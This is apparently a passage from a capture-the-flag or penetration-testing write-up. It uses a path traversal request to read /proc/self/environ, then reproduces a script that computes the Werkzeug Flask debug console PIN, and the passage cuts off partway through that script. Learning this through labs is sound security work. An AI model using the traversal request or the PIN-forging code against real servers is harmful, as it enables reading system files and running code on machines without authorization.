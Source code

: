 However, we don't have any clue of the PIN for now.\
Let's collect system information first.

```shell
GET /download?fn=../proc/self/environ HTTP/1.1
<SNIP>

===================================================

LANG=C.UTF-8 PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin HOME=/var/www
LOGNAME=www-data
USER=www-data
INVOCATION_ID=20a2abff4db442be9be41ce2e11074b3
JOURNAL_STREAM=8:32827
SYSTEMD_EXEC_PID=1073
CONNFIG_PATH=/app/config_prod.json
```

Based on this `environ` output, current user is `www-data`.

Here's the recommended article and reference to exploit Flask Debug mode:
https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/werkzeug
https://www.youtube.com/watch?v=6BWaea0nfE0
https://www.bengrewell.com/cracking-flask-werkzeug-console-pin/

Based on "Hacktricks" article, there's a python code to generate pin.
However, this requires some values to be modified.

```python
import hashlib
from itertools import chain
probably_public_bits = [
    'web3_user',  # username
    'flask.app',  # modname
    'Flask',  # getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/usr/local/lib/python3.5/dist-packages/flask/app.py'  # getattr(mod, '__file__', None),
]

private_bits = [
    '279275995014060',  # str(uuid.getnode()),  /sys/class/net/ens33/address
    'd4e6cb65d59544f3331ea0425dc555a1'  # get_machine_id(), /etc/machine-id
]

# h = hashlib.md5()  # Changed in https://werkzeug.palletsprojects.com/en/2.2.x/changes/#version-2-0-0
h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')
# h.update(b'shittysalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv = None
if rv is None:
    for group_size in 5, 4, 3:
```